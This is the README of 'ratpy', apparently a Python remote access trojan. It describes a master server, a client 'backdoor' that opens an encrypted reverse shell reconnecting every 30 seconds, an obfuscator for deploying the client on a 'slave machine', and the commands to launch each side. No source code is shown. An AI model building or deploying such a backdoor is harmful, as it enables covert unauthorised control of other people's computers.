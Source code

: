 # ratpy
#### another snake friendly rat
<p align="left">
<img src="imgs/ratpy.png" width="240" height="160">
</p>

#### Backbone branch - simple backdoor without tools

## Architecture
### Master
* interface - server menu and server cli scripting
* threadpool - running paralel code to serve menu while waiting and handling connections set to up to 20 by default
* tools - backdoor :: encrypted reverse shell 30s RAT connection with respawn and client-side
* utils - encryption methods and connection methods
> cd master && python3 main.py <server_ip_addr> <rat_port> <shell_port>
### _________________________________________________________________________

### Slave
* interface - client cli scripting
* tools - RAT client backdoor
* utils - encryption methods and connection methods
* obfuscator - obfuscator for client side RAT deployement
> server :: python3 obfuscator.py && <copy ratpy.py to slave machine>
> python3 ratpy.py <server_ip_addr> <rat_port>
### _________________________________________________________________________

## Adding extensions
* to be written in a new future

## Development to v1.0
* [ ] clean up code, refactor and move args.py to interface
* [ ] write client obfuscator
* [ ] open master branch with binary tools for remote deployment
* [ ] document adding extensions

